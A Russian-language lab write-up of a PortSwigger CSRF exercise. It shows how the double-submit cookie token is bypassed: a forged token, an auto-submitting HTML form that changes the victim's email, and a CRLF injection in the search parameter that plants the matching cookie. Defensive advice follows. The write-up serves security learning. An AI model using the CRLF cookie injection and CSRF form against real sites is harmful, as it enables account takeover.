


лаба https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
### CSRF, где токен дублируется в файле cookie
задача таже - через csrf поменять емейл жертве, отправив ей ссылку на свой сервер..

-----

вот запрос на смену емейл
```http
POST /my-account/change-email HTTP/2
Host: 0a8700e003aa213e803103fc00b50050.web-security-academy.net
Cookie: csrf=XXuvROMGmEZR1XmeQEqkRKv3H8f9WXXD; session=RdxllIXH9wQz7DeuCPC2296krPmhdr1u
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8700e003aa213e803103fc00b50050.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8700e003aa213e803103fc00b50050.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=XXuvROMGmEZR1XmeQEqkRKv3H8f9WXXD
```

я подменил 10 крайних букв - csrf=SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS

```http
POST /my-account/change-email HTTP/2
Host: 0a8700e003aa213e803103fc00b50050.web-security-academy.net
Cookie: csrf=SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS; session=RdxllIXH9wQz7DeuCPC2296krPmhdr1u
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8700e003aa213e803103fc00b50050.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8700e003aa213e803103fc00b50050.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS
```
и запрос спокойно отправился!

выглядит как бред
но почему бы и нет..


------

идем на сайт за пивом  https://csrf-poc-generator.vercel.app
и кидаю туда свой запрос

получаю  

```html
<html>
  <body>
    <form action="https://0a8700e003aa213e803103fc00b50050.web-security-academy.net
/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacke3r@bk.ru" />
      <input type="hidden" name="csrf" value="SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
это все окей, но теперь осталось понять - как сделать чтобы у жертвы тоже кука подгрузилась такая же
Сookie: csrf=SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS;

------


----
а вот и ответ на мой вопрос о том, как доставить жертве куку!




дело в том, что на запрос GET /?search=7777 HTTP/2

сервер экранирует куку
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=7777; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3506
```


---------
по аналогии предыдущей лабы я добавил кодированные url  символы переноса строки  `%0d%0a`
и сервер принял ее как очередной параметр
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=7777
Set-Cookie: ss; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3522
```




------

теперь нужно модернизировать запрос отправив сперва запрос - `GET /?search=7777%0d%0aSet-Cookie: SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS HTTP/` который установит в браузере жертвы куку новую и сервер ее посчитает валидной!
и потом уже мой запрос на смену емайл!

```html


<form action="https://0a8700e003aa213e803103fc00b50050.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacke333r@bk.ru" />
    <input type="hidden" name="csrf" value="SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS" />
</form>
```

все - лаба решена!!!!! ура!

-----
## вывод

Сервер использовал устаревший метод "double submit" — сравнивал токен из тела запроса с токеном в куке, но куку можно подменить через CRLF-инъекцию в другом эндпоинте

## защититься:

Никогда не сравнивать токен из тела с токеном из куки без проверки источника куки, так как может найтись способ - как это обойти (как здесь например через запрос поиска, что устанавливал куку в сервер)

Лучше вообще не использовать этот метод, а хранить токены на сервере и привязывать к сессии

Все пользовательские вводы, которые попадают в заголовки, должны строго фильтроваться от символов типа `%0d`, `%0a`